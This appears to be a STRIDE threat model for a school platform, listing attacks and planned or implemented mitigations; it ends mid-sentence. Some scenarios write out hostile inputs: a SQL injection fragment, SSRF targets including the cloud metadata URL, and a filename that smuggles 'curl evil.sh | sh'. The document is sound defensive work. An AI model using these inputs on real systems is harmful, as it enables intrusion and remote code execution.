

# Threat Model

> ### ⚠ Partly out of date — read this first
>
> This document was written for the previous architecture: a Java/Spring Boot API, Firebase
> Authentication, Firestore and Flyway. That stack was retired on 2026-09-19; see
> [ADR 0010](adr/0010-nextjs-fullstack-on-vercel.md) for what replaced it and what was lost.
>
> **The threats, the assets and the attacker model are unchanged and still apply. The named mitigations are not: wherever this says "Firebase", "RLS policy", "Spring Security filter" or "Flyway", check the current control in docs/ARCHITECTURE.md before relying on it. Row-level security in particular is described here as in place; it is not.**
>
> It has not been rewritten yet, and rewriting it is tracked in
> [IMPLEMENTATION_STATUS.md](../IMPLEMENTATION_STATUS.md). Nothing here has been silently
> corrected, because a half-updated security document is more dangerous than an obviously stale
> one — you cannot tell which half you are reading.

---

> **What this is for:** the STRIDE threat model for the Sankofa School Platform — the enumerated
> ways this system can be attacked, what we do about each, and what we have decided not to do.
> **Who reads it:** engineers before designing a module, reviewers before approving a pull request
> (Definition of Done item 15), and whoever is paged at 2am trying to work out whether what they
> are looking at is a known shape or something new.

**Last reviewed:** 2026-09-18 · **Review cadence:** every release train, and on any change to
`docs/ARCHITECTURE.md` §2 (Invariants).

---

## 0. How to read the status markers

The repository today contains `services/core-api/pom.xml` and two Flyway migrations
(`V0001__platform_core.sql`, `V0002__identity_rbac.sql`). There is **no Java source, no TypeScript
source, and no CI workflow in the repository yet.** Almost every application-layer control in this
document is therefore a design commitment, not a shipped control, and is marked as such.

| Marker | Meaning |
|---|---|
| **Implemented** | Exists in the repository now. The "Lives in" line names a real file. |
| **Planned** | Designed and agreed, not built. The "Lives in" line names where it will go. |
| **Accepted risk** | We are deliberately not building a control. The reasoning is in §6. |

Writing **Implemented** against something that does not exist is the single most damaging thing you
can do to this document. If you are unsure, write **Planned**.

This platform contains no AI, ML or LLM component, so there is no model-poisoning, prompt-injection
or inference-leakage class in this model. Every number on every screen traces to SQL over real rows
(`ARCHITECTURE.md` §9).

---

## 1. Scope, assets and trust boundaries

### 1.1 In scope

`apps/web` (Next.js on Vercel), `services/core-api` (Spring Boot), PostgreSQL 16, Firebase Auth,
Firebase Storage, Firestore, FCM, the payment-provider adapter, the SMS-provider adapter, the CI
pipeline, and the humans who operate all of it.

### 1.2 Out of scope

Physical security of a school's own premises and its lab PCs. The security of a parent's personal
phone. The internal security of Google Cloud, Vercel, or a licensed payment provider beyond the
contract and the integration surface we control. Compromise of a school's own email provider, which
we treat as an assumed-possible precondition rather than a threat we can prevent.

### 1.3 Assets, ranked by what happens when they are lost

| # | Asset | Where it lives | Worst realistic outcome |
|---|---|---|---|
| A-1 | Student identity, DOB, photo, home address, guardian contact | PostgreSQL `students`, `guardians`, Firebase Storage | A child is located by someone a court order keeps away from them |
| A-2 | Medical and infirmary records | PostgreSQL `health` schema | Disclosure of a child's HIV status, epilepsy, pregnancy or mental-health referral |
| A-3 | Discipline and counselling records | PostgreSQL `discipline` schema | A child's record follows them; a family is humiliated publicly |
| A-4 | Published academic results | PostgreSQL `assessments`, `grading`, `reporting` | A university place is won or lost on a falsified mark |
| A-5 | Money in motion — invoices, payments, refunds | PostgreSQL `finance` | Fees collected and never credited; a family pays twice |
| A-6 | The ledger — journals, periods, trial balance | PostgreSQL `accounting` | Undetectable embezzlement; a school's audit fails |
| A-7 | Payroll — salary structures, bank details, payslips | PostgreSQL `hr`, `payroll` | Salaries diverted; every staff member's pay made public internally |
| A-8 | Credentials and session material | Firebase Auth, `identity.user_session` | Account takeover at any privilege level |
| A-9 | Service credentials — DB password, Firebase service account, provider API keys | Secret manager, CI | Total compromise of every tenant simultaneously |
| A-10 | E2EE message plaintext | Client devices only, never the server | Staff–student and staff–parent conversations exposed |
| A-11 | The audit log | PostgreSQL `audit` | We lose the ability to answer "what happened", which is the ability to investigate anything else |
| A-12 | Transport routes, stops and pickup times | PostgreSQL `transport` | A stranger knows where a named child stands alone at 06:40 |

A-1, A-2, A-3, A-10 and A-12 are about children. They outrank the money assets. When a control
trades availability against child-data exposure, exposure loses.

### 1.4 Trust boundaries

**The boundary that matters most is B5.** Everything upstream of it can be lied to. `app.tenant_id`
is set from the *verified membership* and nowhere else. If a code path can put an attacker-chosen
value there, every other control in this document is decorative.

---

## 2. Actors

| Actor | Authenticated as | What they legitimately hold | What they would want that they should not have |
|---|---|---|---|
| **Anonymous** | nobody | Public marketing pages, the admissions application form, password reset | Student lists, fee schedules, any id that enumerates |
| **Applicant** | self-registered, unverified email | Their own draft application and its documents | Other applicants' forms; admission decisions before release |
| **Student** | school-issued account | Own timetable, own results after publication, own library loans | Their own unpublished marks; another student's anything; a teacher's mark-entry screen |
| **Guardian** | self-service or invited | Own children's records, invoices, attendance, report cards | A child they are no longer entitled to see; another family's invoice; the class list |
| **Teacher** | staff account | Their teaching assignments, marks for their own subjects/classes, attendance | Marks after publication; another teacher's classes; payroll; discipline records outside their pastoral role |
| **Bursar** | staff account | Fees, invoices, receipts, journals, financial reports | Ability to post into a closed period; ability to approve their own refund; payroll |
| **HR officer** | staff account | Staff records, contracts, leave, payroll input | Approval of a payroll run they prepared; ability to change a bank account and run payroll in the same window |
| **School admin** | staff account | Configuration, users, roles, academic structure | The ability to grant themselves a permission they do not hold; other tenants |
| **Headmaster** | staff account | Executive dashboards, approvals, amendment authority | Silent mark amendment; unlogged access to health records |
| **Platform support** | platform account + time-boxed grant | Narrow, reasoned, expiring access to one tenant | Standing access; access without the school seeing it |
| **Platform super admin** | platform account | Tenant registry, subscriptions, aggregate usage counters | Routine browsing of school records |
| **Compromised insider** | any of the above | — | Everything their role touches, plus whatever weak boundaries let them reach |
| **External attacker** | none, initially | — | A foothold: a stolen parent password, an unauthenticated endpoint, a dependency |

The **compromised insider** is not a hypothetical here. School ICT staff frequently hold the
school-admin role, sit on the same LAN as the finance office, and are asked by colleagues to "just
fix the marks". Most controls in this document earn their cost against this actor, not against a
remote attacker.

---

## 3. STRIDE by trust boundary

### B1 — Browser → `apps/web`

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Session cookie theft | S, I | XSS on a shared lab PC reads the session; attacker resumes as a bursar | `__Host-` prefix, `httpOnly`, `Secure`, `SameSite=Lax`, CSP with nonces | Planned |
| Cross-site request forgery | S, T | Parent visits a phishing page that POSTs a bank-detail change | `SameSite=Lax` + origin check + double-submit token on state-changing routes | Planned |
| Clickjacking | T | School portal framed inside a fake "results" site | `frame-ancestors 'none'` | Planned |
| Credential stuffing | S | Reused parent password from an unrelated breach | Firebase password policy, per-identifier throttle, breach-password rejection | Planned |
| Shoulder-surfing / shared device | S, I | Parent signs in on a phone shared with a neighbour | Short idle timeout on guardian sessions, explicit sign-out, no "remember me" on shared-device flows | Planned |
| Enumeration via error text | I | Login and reset return different messages for known/unknown accounts | Uniform response and timing on auth endpoints | Planned |

### B4 — `apps/web` → `core-api`

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Forged membership context | S, E | Caller sends `X-Active-Membership` for a tenant it does not belong to | Membership must resolve to the authenticated principal, else 403; never trusted as given | Planned |
| Service-credential replay | S | The web tier's credential is captured and reused from elsewhere | Private networking plus short-lived credential, mTLS or signed service token | Planned |
| Mass assignment | T, E | Client posts `role_id`, `tenant_id`, `amount` into a profile update | DTO `record` types with explicit fields; entities never cross the HTTP boundary | Planned |
| Over-fetching in RSC | I | Server Component selects the whole row and serialises it into the payload | Projection DTOs; a review rule that server payloads are audited for fields the role cannot see | Planned |
| Business logic in the web tier | T, E | A discount is computed in TypeScript and trusted by the API | Money, grades and approvals are computed in Java only (`AGENTS.md` §4) | Planned |

### B5 — `core-api` → PostgreSQL

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Unscoped query | I | A repository method forgets its tenant predicate | `platform.current_tenant_id()` raises `42501` when `app.tenant_id` is unset — the query fails rather than returning every tenant | **Implemented** — `V0001__platform_core.sql` |
| Owner bypasses its own policy | I, E | App connects as the table owner and RLS is silently skipped | `FORCE ROW LEVEL SECURITY` on every tenant-owned table; runtime role is neither owner nor `BYPASSRLS` | **Implemented** — `V0001`, `V0002` |
| Tenant set from user input | E | `SET app.tenant_id` fed from a header or subdomain | Set only from the verified membership in `TenantContextFilter` | Planned |
| SQL injection | T, I | String-concatenated `ORDER BY` on a sortable table | Spring Data JDBC with bound parameters; sort columns from an allow-list enum | Planned |
| Mutation of immutable rows | T, R | An `UPDATE` on a posted journal or on the audit log | `platform.forbid_mutation()` trigger on append-only tables | **Implemented** for `identity.security_event`; Planned for `accounting`, `audit` |
| Credential in a connection string in logs | I | JDBC URL with password logged at startup | Secret-manager injection, deny-list in the log scrubber | Planned |

### B6 — `core-api` → Firebase Auth

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Token forgery / wrong audience | S | A token minted for a different Firebase project is accepted | `verifyIdToken` with signature, `aud`, `iss`, `exp` and revocation check | Planned |
| Stale custom claims trusted | E | Role removed in the database, claim still says `bursar` | Claims are a cache, never an access decision (`ARCHITECTURE.md` §1) | **Implemented** as a schema decision; enforcement Planned |
| Session outlives revocation | S | Sacked staff member's token still valid for an hour | `identity.app_user.sessions_valid_from` cut-off, checked per request | **Implemented** (column); check Planned |
| Service-account JSON leakage | S, E | Key committed, or shipped in a `NEXT_PUBLIC_*` variable | `AGENTS.md` prohibition 5, secret scanning in CI, workload identity in preference to a key file | Planned |

### B7 — `core-api` → Firebase Storage

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Public bucket | I | Student photos readable by object URL | Private bucket; access only via short-lived signed URL minted after an authorization check | Planned |
| Signed URL sharing | I | A parent forwards a signed report-card URL to a WhatsApp group | Short TTL, single-use where feasible, URL bound to the requesting session where the SDK allows | Planned |
| Path traversal in object keys | T | Upload named `../../other-tenant/photo.jpg` | Server-generated keys `{tenant}/{module}/{uuid}`; the client never chooses the path | Planned |
| Malware stored and redistributed | T | "Photo" is a macro-laden document later downloaded by staff | Scan hook before the object becomes referenceable; quarantine prefix until clean | Planned |

### B10/B11 — `core-api` ↔ payment provider

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Webhook spoofing | S | Attacker POSTs a "payment succeeded" body to the public webhook URL | HMAC signature verification against the provider secret, constant-time compare, reject unsigned | Planned |
| Replay / double-credit | T | The same valid webhook is replayed twenty times | Idempotency on the provider's reference; `uq_outbox_idempotency` pattern extended to payment intake | Partially **Implemented** (outbox idempotency index); payment intake Planned |
| Amount tampering | T | Client tells us it paid GHS 5,000.00; provider says 50.00 | Server re-verifies the charge with the provider before crediting; the client's number is never used | Planned |
| Non-repudiation gap | R | Parent says they paid; we have no provider-side evidence | Store the provider reference, raw signed payload hash, and verification result on the payment row | Planned |
| Provider outage mis-handled | D | Verification times out and the invoice is marked paid to keep the screen happy | Invariant I-8: record `VERIFICATION_PENDING`, never assume success | Planned |

### B12 — `core-api` → SMS provider

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Content leakage to the provider | I | "Ama's HIV medication is due" sent as plaintext SMS | Templates for sensitive modules carry no clinical or disciplinary detail — "please contact the infirmary" | Planned |
| Toll fraud / quota abuse | D | Compromised admin blasts 40,000 messages; the school's credit is drained overnight | Per-tenant quota in `platform.tenant_usage.sms_sent_period`, hard cap plus approval above a threshold | Partially **Implemented** (counter column); enforcement Planned |
| Number harvesting | I | Provider dashboard access leaks the full guardian phone book | Contractual DPA, least-privilege provider account, phone numbers masked in our own logs | Planned |
| Delivery-failure swallowed | D, R | The fee reminder never arrived and nobody knows | `platform.job_execution` records partial/failed dispatch | **Implemented** (table); wiring Planned |

### B3 — Client → Firestore (direct)

| Threat | STRIDE | Concrete form here | Primary control | Status |
|---|---|---|---|---|
| Over-permissive rules | I, E | A rule allows `read: if request.auth != null`, which is every user on the platform | Rules scoped to conversation membership and tenant; emulator test for the deny case is mandatory (`AGENTS.md` §7) | Planned |
| Server-side plaintext | I | A convenience "search messages" feature stores plaintext | Architectural rule: the server holds envelopes and metadata only | Planned |
| Metadata analysis | I | Who talks to whom, how often, at what hour — visible even when content is not | Accepted, see §6 RR-3 |
| Rules weakened to fix a bug | E | A feature breaks and the rule is loosened to ship | `AGENTS.md` prohibition 4; rules changes require an emulator test in the same commit | Planned |

---

## 4. Threat register

Format: STRIDE — **S**poofing, **T**ampering, **R**epudiation, **I**nformation disclosure,
**D**enial of service, **E**levation of privilege. Likelihood is judged for a Ghanaian day school
with 400–2,000 students, a single ICT officer, and parents on shared Android phones.

---

### T-01 · Broken access control on a write endpoint
**STRIDE:** E, T · **Impact:** Critical · **Likelihood:** High

**Scenario.** A teacher opens the browser network tab on the marks screen, copies the
`PATCH /api/v1/assessments/{id}/marks` request, and replays it with a different `assessmentId`
belonging to a colleague's class. The UI never showed them that class, so no navigation check
fires. The endpoint checks that the caller is authenticated and holds `ASSESSMENT_MARK_WRITE`, but
never checks that *this* assessment is one of theirs.

**Mitigation.** Every endpoint enforces both a granular permission (`@RequiresPermission`) **and**
an object-scope check against the caller's teaching assignments. A permission-matrix test asserts
the allow *and* the deny for each endpoint (`AGENTS.md` §7).

**Lives in.** `identity/authz/RequiresPermission`, per-module `*AccessPolicy` classes,
`*PermissionMatrixTest` — Status: planned.

---

### T-02 · Cross-tenant data leakage
**STRIDE:** I · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** A reporting query is written against a read model using a hand-rolled `JdbcTemplate`
call with no tenant predicate, in a transaction where `app.tenant_id` was set for tenant A. A later
refactor moves the call into a scheduled job that runs without tenant context. Instead of returning
nothing, the job returns every school's arrears and emails them to one bursar.

**Mitigation.** Dual enforcement (Invariant I-1). `platform.current_tenant_id()` raises `42501`
rather than returning `NULL`, so the unscoped job fails loudly at the first query. `FORCE ROW LEVEL
SECURITY` prevents the owner-bypass variant. A cross-tenant isolation test is mandatory for every
tenant-owned table.

**Lives in.** `V0001__platform_core.sql` (`current_tenant_id`, `FORCE`), `V0002__identity_rbac.sql`
(`tenant_isolation` policies) — Status: **implemented**. `TenantContextFilter` and
`TenantIsolation*IT` — Status: planned.

---

### T-03 · IDOR on student, invoice and payslip identifiers
**STRIDE:** I, E · **Impact:** High · **Likelihood:** High

**Scenario.** A parent on the portal sees `/api/v1/invoices/0191f2c1-...`. They decrement one
character and get a 200 with another family's invoice: names, amount outstanding, and the student's
class. Sequential human references make it worse — `INV-2026-000045` invites `...000046`.

**Mitigation.** UUIDv7 primary keys are non-guessable in public, but obscurity is not the control:
every read resolves through a relationship check (guardian → student link, membership → tenant, staff
→ assignment) before the row is returned. Human reference numbers are a display attribute and are
never accepted as a lookup key on a public route. RLS is the backstop for the tenant dimension; it
does **not** protect a parent from another parent inside the same school, so the relationship check
is the primary control here, not a secondary one.

**Lives in.** `guardians/GuardianStudentAccessPolicy`, `finance/InvoiceAccessPolicy`,
`payroll/PayslipAccessPolicy` — Status: planned.

---

### T-04 · Session theft
**STRIDE:** S · **Impact:** High · **Likelihood:** Medium

**Scenario.** A bursar signs in on the staffroom PC and walks away. Another member of staff opens
the browser, and the session is still live. Variant: an XSS payload in an announcement body reads
`document.cookie` — defeated by `httpOnly`, but a payload that simply *acts* as the victim inside
the page is not.

**Mitigation.** `__Host-session`, `httpOnly`, `Secure`, `SameSite=Lax`. The token is stored as
SHA-256 in `identity.user_session.token_hash`, so a database read is not account takeover. Idle
timeout differentiated by role. Session list and remote revocation in user settings. Advancing
`app_user.sessions_valid_from` kills every outstanding session at once.

**Lives in.** `V0002__identity_rbac.sql` (`token_hash`, `sessions_valid_from`) — Status:
**implemented**. Cookie issuance and idle timeout in `apps/web/src/server/session` — Status: planned.

---

### T-05 · Privilege escalation via role editing
**STRIDE:** E · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** The school ICT officer holds `ROLE_MANAGE` so they can create a "Form Master" role.
They open the role editor, tick `PAYROLL_RUN_APPROVE` and `ACCOUNTING_PERIOD_REOPEN`, assign the
role to themselves, and approve their own salary increase. Nothing in a naive implementation stops
this: they had permission to edit roles, and editing roles is how you grant permissions.

**Mitigation.** No principal may grant a permission they do not themselves hold. Permissions marked
`is_sensitive` are excluded from bulk "grant the whole module" conveniences and require individual
assignment with a recorded reason. `DENY` in `membership_permission_grant` always beats a
role-derived `ALLOW`, so a compensating control exists without deleting a role. Every grant writes
an audit entry and a `security_event`, and the affected user is notified.

**Lives in.** `V0002__identity_rbac.sql` (`is_sensitive`, `effective_permissions`, `DENY` precedence)
— Status: **implemented**. The "cannot grant what you do not hold" check in
`identity/RoleApplicationService` — Status: planned.

---

### T-06 · Credential stuffing against parent accounts
**STRIDE:** S · **Impact:** High · **Likelihood:** High

**Scenario.** Guardian accounts are the weakest population on the platform: passwords reused from a
telecom or retail breach, phones shared between a household, and no appetite for MFA. An attacker
runs a list of Ghanaian email/password pairs against the sign-in endpoint at two requests per second
from a rotating residential proxy pool, well under any naive per-IP limit. A 0.5% hit rate on 20,000
pairs is a hundred families' records.

**Mitigation.** Firebase password policy with a minimum length and a breached-password check.
Throttling keyed on **identifier**, not only IP. Progressive delay then temporary lock. New-device
and new-location notification by email and SMS. MFA offered to guardians, required for staff.
Credential-stuffing attempts raise a `security_event` with severity `WARNING` so a campaign against
one school is visible as a campaign.

**Lives in.** Firebase Auth configuration, `identity/AuthThrottleFilter` (bucket4j is already a
declared dependency in `pom.xml`) — Status: planned.
`identity.security_event` — Status: **implemented**.

---

### T-07 · Brute force against a single account
**STRIDE:** S · **Impact:** Medium · **Likelihood:** Medium

**Scenario.** A student wants their class teacher's account. They know the email format, and they
try the school's name, `password123`, and the teacher's child's name — twenty guesses over lunch,
from the school's own IP, which is also the IP of every legitimate user.

**Mitigation.** Per-identifier exponential backoff and lockout after a threshold, independent of IP,
precisely because the school shares one NAT address. Lockout notifies the account owner. Staff MFA
means a correct password alone is insufficient. Never lock out in a way that lets a student
deliberately lock a teacher out before an exam — lockout is time-boxed, not manual-unlock-only.

**Lives in.** `identity/AuthThrottleFilter`, Firebase Auth lockout policy — Status: planned.

---

### T-08 · SQL injection
**STRIDE:** T, I, E · **Impact:** Critical · **Likelihood:** Low

**Scenario.** The student list supports `?sort=surname&dir=asc`. `ORDER BY` cannot be a bound
parameter, so someone concatenates it. An attacker passes
`surname; SELECT pg_sleep(5)--` or, more usefully, a boolean-blind payload that reads
`identity.app_user` row by row. Even with RLS, injection inside a tenant-scoped session reads
everything that tenant owns, including health and discipline rows.

**Mitigation.** Spring Data JDBC with bound parameters everywhere. Sort fields and directions
resolve through an allow-list enum, never a string. No dynamic SQL assembled from request values.
The runtime role has no DDL rights and no `BYPASSRLS`, which caps the blast radius. Static analysis
flags string concatenation adjacent to `JdbcTemplate`.

**Lives in.** `platform/paging/SortSpec`, repository layer, CodeQL rules in CI — Status: planned.

---

### T-09 · Stored XSS in report-card remarks and announcement bodies
**STRIDE:** T, I, E · **Impact:** High · **Likelihood:** Medium

**Scenario.** Report-card remarks are free text written by a teacher and read by the headmaster, the
bursar and every guardian in that class. A teacher — or anyone who has taken a teacher's account —
writes `Excellent term`.
The headmaster opens the class report view; the attacker receives the rendered payload of a
privileged page. The announcement body is worse: it is rendered to every user in the school, and it
is exactly the field a school wants rich formatting in.

**Mitigation.** React escapes by default; `dangerouslySetInnerHTML` is forbidden without a reviewed
exception. Rich text is stored as a constrained document model, not raw HTML, and sanitised
server-side on write with an allow-list of tags and attributes — never on render alone. CSP with
per-request nonces and no `unsafe-inline` turns a successful injection into a console error. Report
cards render to PDF server-side, where the renderer must not fetch remote resources.

**Lives in.** `platform/text/RichTextSanitizer`, the CSP in `apps/web` middleware, PDF renderer
configuration — Status: planned.

---

### T-10 · Cross-site request forgery
**STRIDE:** S, T · **Impact:** High · **Likelihood:** Medium

**Scenario.** A bursar reads a "payment notification" email on the office PC while signed in. The
linked page silently submits a form to
`POST /api/v1/suppliers/{id}/bank-details`. `SameSite=Lax` blocks the cookie on a cross-site POST,
so the realistic variant is a top-level GET navigation that triggers a state change — which is why
no GET in this system may change state.

**Mitigation.** `SameSite=Lax` plus `Secure` plus `__Host-` prefix. Origin/Referer validation on
every state-changing route handler. A synchroniser token on high-value forms — bank details, payroll
approval, role changes, period reopen. No state change behind a GET, ever, including "helpful"
confirmation links in emails.

**Lives in.** `apps/web/src/server/csrf`, route-handler middleware — Status: planned.

---

### T-11 · SSRF via webhook target and school-logo URL fetch
**STRIDE:** I, E · **Impact:** High · **Likelihood:** Medium

**Scenario.** Two entry points. First, school branding lets an admin supply a logo URL that the
server fetches and stores; they supply `http://169.254.169.254/computeMetadata/v1/` and read the
container's metadata credentials, or `http://localhost:8080/actuator/env`. Second, tenant-configured
outbound webhooks let an admin point an integration at an internal address and use our server as a
proxy into the private network.

**Mitigation.** Prefer upload over fetch for logos — the fetch feature is the vulnerability, and
removing it removes the class. Where an outbound fetch is genuinely needed: HTTPS only, DNS resolved
once and the resolved IP checked against a deny-list of private, loopback, link-local and metadata
ranges, then connected to *that* IP to defeat DNS rebinding; no redirects followed; a short timeout;
a response size cap; and egress from a network policy that cannot reach the metadata endpoint at
all. Content type validated as an image by magic bytes, not by the declared header.

**Lives in.** `integrations/http/SafeOutboundHttpClient`, network egress policy in `infrastructure/`
— Status: planned.

---

### T-12 · Command injection
**STRIDE:** E, T · **Impact:** Critical · **Likelihood:** Low

**Scenario.** Report-card PDF generation or a bulk photo resize shells out to a converter and
interpolates a filename. A student uploads a photo named `me.jpg; curl evil.sh | sh`, and the
resize job runs it as the service account.

**Mitigation.** No shell invocation in application code. Where an external binary is unavoidable,
invoke it with an argument array, never a shell string, with a server-generated temporary path that
contains no user input at all. Filenames from users are stored as a display attribute and never used
as a path component.

**Lives in.** `documents/`, `reporting/pdf/` — Status: planned. No such code path exists today.

---

### T-13 · Insecure deserialization
**STRIDE:** E · **Impact:** Critical · **Likelihood:** Low

**Scenario.** The outbox payload is `jsonb`. If a consumer deserialises it with Jackson polymorphic
type handling enabled — `enableDefaultTyping`, or `@JsonTypeInfo` with a permissive base — an
attacker who can write an outbox row (through any injection or an over-broad integration) picks a
gadget class on the classpath and achieves remote code execution.

**Mitigation.** Polymorphic type handling stays off. Outbox payloads deserialise into a concrete
`record` chosen by the `event_type` column through an explicit registry, not by a type hint inside
the payload. Java serialization is not used anywhere. Session state is a random opaque token
resolved against `identity.user_session`, not a serialised object.

**Lives in.** `platform/outbox/OutboxEventRegistry`, Jackson configuration — Status: planned.

---

### T-14 · Malicious file upload disguised as a student photo
**STRIDE:** T, E, D · **Impact:** High · **Likelihood:** Medium

**Scenario.** The admissions form accepts a student photo. An attacker uploads `photo.jpg` that is
actually an SVG containing a script — served from our domain it becomes stored XSS — or an HTML file
with an image extension, or a 40,000 × 40,000 pixel PNG decompression bomb that exhausts the resize
worker's memory and takes the API down during enrolment week.

**Mitigation.** Pipeline, in order: size cap before the body is read; extension allow-list;
content-type confirmed by magic bytes, not the client header; images decoded and re-encoded
server-side so the stored object is our bytes, not theirs; pixel-dimension cap before decode; SVG
rejected outright for photos; server-generated object key; private bucket; malware scan before the
object becomes referenceable; served only through a short-lived signed URL with
`Content-Disposition: attachment` and `X-Content-Type-Options: nosniff` for anything that is not a
re-encoded image.

**Lives in.** `documents/UploadPipeline`, Storage rules, scan hook — Status: planned.

---

### T-15 · Webhook spoofing from a fake payment provider
**STRIDE:** S, T · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** The webhook URL is public by necessity. An attacker who has seen one legitimate
callback body — from their own small real payment — POSTs a copy with the amount changed to
GHS 8,400.00 and a student reference that is not theirs. Fees are marked paid, a receipt number is
allocated, and the ledger takes a journal for money that never arrived.

**Mitigation.** Signature verification against the provider's shared secret using a constant-time
compare, before the body is parsed. Unsigned or badly-signed requests are rejected with 401 and
recorded as a `security_event`. Signature verification is not sufficient on its own: the handler
then calls the provider's verification API for that reference and credits the **provider's** amount
and currency, never the amount in the request body. Source IP allow-listing where the provider
publishes stable ranges, as a second factor and not the primary one.

**Lives in.** `integrations/webhook/PaymentWebhookController`, `finance/PaymentVerificationService`
— Status: planned.

---

### T-16 · Payment replay and double-credit
**STRIDE:** T · **Impact:** High · **Likelihood:** Medium

**Scenario.** Mobile-money callbacks retry aggressively on timeout. A slow database write means the
provider retries four times. Without idempotency the student's account is credited four times, the
family is told they are in credit by GHS 3,600.00, and the ledger no longer reconciles to the bank.
The malicious variant is the same request replayed deliberately.

**Mitigation.** The provider's transaction reference is a unique key on the payment table. Intake is
idempotent: a repeat returns the original result and writes no second journal. The outbox already
enforces this shape with `uq_outbox_idempotency`. Reconciliation against the provider's settlement
file is a scheduled job whose failures land in `platform.job_execution`, so a silent drift becomes
visible within a day.

**Lives in.** `V0001__platform_core.sql` (`uq_outbox_idempotency`, `job_execution`) — Status:
**implemented**. `finance/PaymentIntakeService` and the unique constraint on the payment table —
Status: planned.

---

### T-17 · Payroll manipulation — self-approval and bank-detail change before a run
**STRIDE:** T, E, R · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** The HR officer prepares the December run. The night before, they edit a staff member's
bank account to an account they control, approve the run themselves, and edit the account back on
the 2nd. The payslip shows the correct employee, the bank file shows a different account, and
nothing in the system links the two edits to the payment. Ghanaian schools frequently have one
person doing both preparation and approval, which is exactly why the control has to be structural.

**Mitigation.** Separation of duties enforced in code: the approver of a payroll run may not be its
preparer, and `PAYROLL_RUN_PREPARE` and `PAYROLL_RUN_APPROVE` may not be held by the same membership
without an explicit, reasoned, expiring override. Bank-detail changes are versioned with
effective dates, notified to the affected staff member on the channel they registered *before* the
change, and frozen during an open pay period — a change made inside the window applies to the next
run, not this one. The run snapshots the bank details it used, so a later edit cannot rewrite
history. Every payslip amendment writes an amendment record.

**Lives in.** `payroll/PayrollRunService`, `hr/BankDetailService`, `identity` sensitive-permission
flags — Status: planned. The `is_sensitive` mechanism it depends on is **implemented** in `V0002`.

---

### T-18 · Grade manipulation by a teacher after publication
**STRIDE:** T, R · **Impact:** High · **Likelihood:** Medium

**Scenario.** Results are published. A parent complains. The teacher quietly edits the mark from 41
to 52 and tells the parent it was a data-entry error. Two weeks later the headmaster is asked to
explain why the class average moved after publication and has no record of what changed.

**Mitigation.** Invariant I-5. After `PUBLISHED`, a mark changes only through an amendment record
capturing `old_value`, `new_value`, `reason`, `changed_by`, `approved_by`, `occurred_at`. The
amendment needs a second approver who is not the person requesting it. Report cards are versioned
documents: an amended result produces a new version with a visible amendment note, not a silent
replacement. The pre-publication window is where teachers correct freely — that is the point of
having a publication state at all.

**Lives in.** `assessments/MarkAmendment`, `grading/PublicationService`, `reporting/DocumentVersion`
— Status: planned. Invariant is recorded in `ARCHITECTURE.md` §2 I-5.

---

### T-19 · Accounting fraud — backdated journal into a closed period
**STRIDE:** T, R · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** The term's accounts are closed and reported to the board. The bursar posts a journal
dated three weeks earlier, moving GHS 22,000.00 from a fee-income account into a suspense account,
then out to a supplier that does not exist. The trial balance the board saw is no longer the trial
balance in the system, and nobody re-runs the old report to notice.

**Mitigation.** Invariants I-3 and I-4. A posted journal is immutable, enforced by trigger and not
only by service code; correction is by reversal or adjusting journal that references the original.
Period close is a state change with its own permission, and posting into a closed period is
rejected at the database level. Reopening a period is a sensitive permission requiring a recorded
reason, notifying the headmaster, and writing an audit entry. Financial reports are snapshotted at
close so the version the board saw remains retrievable.

**Lives in.** `accounting/` triggers in a future migration, `accounting/PeriodService` — Status:
planned. The append-only trigger primitive `platform.forbid_mutation()` is **implemented** in
`V0001`.

---

### T-20 · Log and audit tampering
**STRIDE:** T, R · **Impact:** High · **Likelihood:** Low

**Scenario.** An insider with database access deletes the audit rows covering their session, or an
attacker with an RCE foothold truncates `audit.audit_entry` on the way out. Every other detective
control in this document assumes the audit log is trustworthy.

**Mitigation.** Audit tables are append-only via `platform.forbid_mutation()`, applied in the same
migration that creates them. The runtime role has `INSERT` and `SELECT` on audit tables and no
`UPDATE` or `DELETE` — a grant narrower than the schema-wide default. Application logs ship to a
retention-locked sink outside the application's own credentials, so deleting rows in PostgreSQL does
not delete the evidence. Gaps in a monotonic audit sequence are themselves an alert.

**Lives in.** `V0002__identity_rbac.sql` (`trg_security_event_immutable`) — Status: **implemented**.
The `audit` schema, the narrowed grants and the log sink — Status: planned. Note that `V0001` grants
